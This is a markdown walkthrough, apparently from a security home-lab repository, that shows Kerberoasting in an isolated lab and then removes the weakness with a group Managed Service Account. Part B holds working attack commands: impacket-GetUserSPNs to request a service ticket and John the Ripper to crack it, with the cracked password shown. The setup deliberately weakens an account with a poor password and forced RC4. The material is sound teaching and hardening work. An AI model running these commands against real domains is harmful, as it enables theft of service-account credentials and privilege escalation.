





# Demo 2 — Kerberoasting → group Managed Service Accounts (gMSA)

**Level 3 · Credential Hardening**

A low-privileged, fully authenticated domain user asks a domain controller for a
service ticket, walks away with the service account's password hash, and cracks it
offline — no contact with the target service, no failed logons, no lockout, nothing
that looks abnormal in the logs. This is Kerberoasting, and in this lab it took one
second. Then we retire the vulnerable account behind a group Managed Service Account
and run the identical attack again. It finds nothing to attack.

This is the same before/after structure as Demo 1: prove the technique end to end,
apply the control, prove the technique now fails.

---

## Why this works — the attack at protocol level

Kerberoasting abuses a design property of Kerberos, not a bug. Any principal that
holds a valid Ticket-Granting Ticket (i.e. any authenticated domain account, however
unprivileged) may request a service ticket (TGS) for **any** Service Principal Name
(SPN) in the domain. The KDC does not check whether the requester is actually
entitled to use that service — authorization is the service's job at connection time,
not the KDC's job at ticket-issue time.

The catch is what the TGS contains. The service portion of the ticket is encrypted
with the **long-term key of the service account** that owns the SPN. When that account
is an ordinary user object with a human-chosen password, its key is derived directly
from that password. If the account supports RC4 (`etype 23`), the derived key is an
unsalted NT hash of the password. So the attacker requests the ticket over the
network, takes the encrypted blob offline, and brute-forces it against a wordlist:
every guess that decrypts to a well-formed ticket is the password.

Two properties make this devastating in practice:

- **It is offline.** After the single TGS request, all cracking happens on the
  attacker's machine. No authentication attempts hit the domain, so account lockout
  and most detection logic never fire.
- **Service accounts are soft targets.** They frequently carry weak, non-expiring,
  human-set passwords, run with elevated rights, and are exempt from the password
  rotation everyone else gets. A cracked service account is often a direct path to
  lateral movement or privilege escalation.

The fix, `gMSA`, breaks the second property outright: the password becomes a 120-character
value that Active Directory generates and rotates automatically, and we force AES so
the weaker RC4 key derivation is off the table entirely.

---

## Lab state

Run from checkpoint `03-demo1-complete`. **Only `DC01` and `ATTACK` need to be
running** for this demo — the workstations play no part, so leave them off and save
the host RAM.

| Host | Role | Address |
|------|------|---------|
| DC01 | `corp.lab` domain controller / KDC | 10.0.0.10 |
| ATTACK | Kali (impacket, John the Ripper) | 10.0.0.50 |

`ATTACK` is driven over SSH from the host in this walkthrough. See the
[network / SSH note](#lab-gotchas-hit-during-this-demo) below — isolating the box
correctly is what makes SSH need a host-side lab IP.

---

## Part A — Stand up the Kerberoastable target `[DC01]`

Elevated PowerShell on DC01.

```powershell
Import-Module ActiveDirectory

# Low-priv attacker: proves ANY authenticated user can Kerberoast.
New-ADUser -Name lowpriv -SamAccountName lowpriv `
    -AccountPassword (ConvertTo-SecureString 'Attacker!Pass123' -AsPlainText -Force) `
    -Enabled $true -PasswordNeverExpires $true

# Service account with a deliberately weak, human-style password.
New-ADUser -Name svc-sql -SamAccountName svc-sql `
    -AccountPassword (ConvertTo-SecureString 'Summer2024' -AsPlainText -Force) `
    -Enabled $true -PasswordNeverExpires $true

# The SPN is what makes the account roastable.
Set-ADUser -Identity svc-sql -ServicePrincipalNames @{Add='MSSQLSvc/sql01.corp.lab:1433'}

# Force RC4 (0x4) so the TGS comes back as etype 23 — makes the crack deterministic.
# Modern DCs would otherwise hand back AES.
Set-ADUser -Identity svc-sql -Replace @{'msDS-SupportedEncryptionTypes'=4}
```

**Verify** the target is set up as expected:

```powershell
Get-ADUser svc-sql -Properties servicePrincipalName,msDS-SupportedEncryptionTypes |
    Select Name,servicePrincipalName,msDS-SupportedEncryptionTypes
```

You want to see the `MSSQLSvc/...` SPN and `4` for the encryption types.



---

## Part B — Roast and crack `[KALI]`

Kerberos rejects tickets when the clock skews more than five minutes from the KDC, so
sync first. With the lab isolated the box has no internet, so set the time by hand in
UTC (grab the DC's UTC time with
`(Get-Date).ToUniversalTime().ToString("yyyy-MM-dd HH:mm:ss")` on DC01):

```bash
sudo date -u -s "2026-07-14 14:34:13"   # <- DC's UTC time
```

Request the ticket. impacket installed via apt/pipx exposes the tools with an
`impacket-` prefix:

```bash
impacket-GetUserSPNs corp.lab/lowpriv:'Attacker!Pass123' -dc-ip 10.0.0.10 -request -outputfile roast.hash
```

Confirm it is an RC4 ticket — the hash must begin `$krb5tgs$23$`:

```bash
cat roast.hash
```

Crack it. **Note the tooling choice:** hashcat needs an OpenCL/CUDA runtime, and a
Hyper-V VM exposes no GPU, so hashcat aborts with `No OpenCL ... platform found`.
John the Ripper cracks TGS-REP on CPU out of the box and is what we use here.

```bash
# Deterministic mask — cracks in well under a second.
john --format=krb5tgs --mask='Summer20?d?d' roast.hash
john --format=krb5tgs --show roast.hash
```

Observed result:

```
Summer2024       (?)
1g 0:00:00:00  25.00g/s 2500p/s 2500c/s 2500C/s Summer2011..Summer2077
...
?:Summer2024
1 password hash cracked, 0 left
```

For the narrative it is worth also running plain `rockyou` with rules, to show you
don't even need to know the password pattern — a stock wordlist finds it:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz 2>/dev/null
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 roast.hash
```

> If John reports `No password hashes left to crack`, it already cracked it and
> stored the result in `~/.john/john.pot`. `rm ~/.john/john.pot` for a clean re-run.

**Screenshot 1 (`before`):** the mask crack showing `Summer2024` at `0:00:00:00`,
plus `--show` printing `?:Summer2024`.



### Before — the attack path



---

## Part C — Remediate with a gMSA + AES-only `[DC01]`

Elevated PowerShell on DC01.

```powershell
# 1) KDS root key. Production: create it, then WAIT 10 hours for replication.
#    Lab-only shortcut: backdate EffectiveTime so it is usable immediately.
Add-KdsRootKey -EffectiveTime ((Get-Date).AddHours(-10))

# 2) Group of principals allowed to retrieve the gMSA password.
#    In production the app host computer accounts go here; for the lab, DC01.
New-ADGroup -Name gMSA-SQL-Retrievers -GroupScope Global -GroupCategory Security
Add-ADGroupMember -Identity gMSA-SQL-Retrievers -Members (Get-ADComputer DC01).DistinguishedName
```

**Order matters here.** An SPN must be unique forest-wide, so you cannot register
`MSSQLSvc/sql01.corp.lab:1433` on the gMSA while `svc-sql` still holds it — the create
fails with `error 8647: SPN value ... is not unique forest-wide`. Remove the SPN from
the weak account **first**:

```powershell
# 3) Free the SPN from the weak account, then disable the account.
Set-ADUser -Identity svc-sql -ServicePrincipalNames @{Remove='MSSQLSvc/sql01.corp.lab:1433'}
Disable-ADAccount -Identity svc-sql

# 4) Create the gMSA, AES-only, and move the SPN onto it.
New-ADServiceAccount -Name svc-sql-gmsa `
    -DNSHostName svc-sql-gmsa.corp.lab `
    -PrincipalsAllowedToRetrieveManagedPassword gMSA-SQL-Retrievers `
    -ServicePrincipalNames 'MSSQLSvc/sql01.corp.lab:1433' `
    -KerberosEncryptionType AES128,AES256
```

**Verify** the SPN moved and encryption is AES-only (`24` = AES128 | AES256):

```powershell
Get-ADServiceAccount svc-sql-gmsa -Properties msDS-SupportedEncryptionTypes,servicePrincipalName |
    Select Name,msDS-SupportedEncryptionTypes,servicePrincipalName

setspn -Q MSSQLSvc/sql01.corp.lab:1433
```

Observed:

```
Name         msDS-SupportedEncryptionTypes servicePrincipalName
----         ----------------------------- --------------------
svc-sql-gmsa                            24 {MSSQLSvc/sql01.corp.lab:1433}

CN=svc-sql-gmsa,CN=Managed Service Accounts,DC=corp,DC=lab
        MSSQLSvc/sql01.corp.lab:1433
Existing SPN found!
```

---

## Part D — Re-roast: the attack now finds nothing `[KALI]`

Run the identical command from Part B:

```bash
impacket-GetUserSPNs corp.lab/lowpriv:'Attacker!Pass123' -dc-ip 10.0.0.10 -request -outputfile roast2.hash
```

Result:

```
No entries found!
```

This is the whole point, and it is stronger than "the password got harder." `GetUserSPNs`
enumerates **user** objects that carry an SPN. The SPN is still live — `setspn -Q`
confirms it — but it now belongs to a `msDS-GroupManagedServiceAccount`, not a user, so
the roaster has no target to enumerate. Even if an attacker specifically targeted the
gMSA and obtained its ticket, that ticket is `$krb5tgs$18$` (AES256) protecting a
120-character AD-managed secret that rotates every 30 days — offline cracking exhausts
with no result.

We didn't block the request. We made its outcome worthless, and we removed the account
from the roaster's field of view.

**Screenshot 2 (`after`):** `No entries found!` from `GetUserSPNs` (left), next to the DC's
verify output — `msDS-SupportedEncryptionTypes = 24` and `setspn -Q` showing the SPN
owned by `svc-sql-gmsa` (right).



### After — the control



Take the checkpoint:

```powershell
Checkpoint-VM -Name DC01,ATTACK -SnapshotName '04-demo2-complete'
```

---

## What this demonstrates for a real environment

- **Inventory SPNs on user objects.** `Get-ADUser -Filter {ServicePrincipalName -like "*"}`
  is the roaster's exact view of your soft targets. Every hit is a candidate.
- **Migrate service accounts to gMSA (or dMSA on Server 2025).** It removes weak,
  static, human-set passwords as a class — the root cause, not a symptom.
- **Kill RC4.** Force AES on service accounts (`msDS-SupportedEncryptionTypes`), so even
  an unavoidable user-object SPN can't be downgraded to the cheap-to-crack key.
- **Detection is the backstop.** Kerberoasting is quiet, but a burst of RC4 TGS requests
  (`etype 0x17`) for many SPNs from one principal is a Level 4 detection signal — Event ID
  4769 with ticket encryption type `0x17`.

---

## Lab gotchas hit during this demo

These are the real snags from this run — worth carrying into `lab/README` troubleshooting.

| Symptom | Cause | Fix |
|---------|-------|-----|
| `impacket ... Connection timed out`; Kali `eth0` had no IPv4, a second `eth1` on `192.168.178.x` | ATTACK came back up with an external `Cable Switch` adapter attached — broke isolation and the lab NIC never got an address | `Get-VMNetworkAdapter -VMName ATTACK \| ? SwitchName -eq 'Cable Switch' \| Remove-VMNetworkAdapter`, then static `10.0.0.50/24` on `eth0` |
| `Network is unreachable` even with `10.0.0.50` set | connected route for the subnet was missing | `sudo ip route add 10.0.0.0/24 dev eth0` |
| Host `ssh 10.0.0.50` timed out after isolating the box | host had no interface on the internal switch's subnet | `New-NetIPAddress -InterfaceAlias 'vEthernet (AD-Lab-Net)' -IPAddress 10.0.0.1 -PrefixLength 24` (elevated) |
| `New-NetIPAddress ... Access is denied` (error 5) | PowerShell not elevated | run PowerShell as Administrator |
| `rdate`/`ntpdate: command not found`, and no internet to install | box is isolated | set time by hand in UTC from the DC's `(Get-Date).ToUniversalTime()` |
| `GetUserSPNs.py: command not found` | impacket installed via apt/pipx | use the `impacket-GetUserSPNs` prefix |
| hashcat: `No OpenCL ... platform found` | Hyper-V VM has no GPU/OpenCL runtime | crack with John the Ripper on CPU instead |
| `New-ADServiceAccount ... error 8647 SPN not unique` | SPN still registered on `svc-sql` | remove the SPN from the weak account before creating the gMSA |

## Files

```
lab/demos/
  01-pass-the-hash-laps/          # Demo 1
  02-kerberoasting-gmsa/          # this demo
    README.md
    screenshots/
      00-vulnerable-target-setup.png   # setup: svc-sql SPN + RC4
      01-roast-and-crack.png           # before: Summer2024 in 0:00:00:00
      02-gmsa-no-entries.png           # after: No entries found! + setspn -Q
```

> Detection for this technique — Event ID 4769 with RC4 ticket encryption (`0x17`) —
> belongs to Level 4 (`docs/04-detection/`).
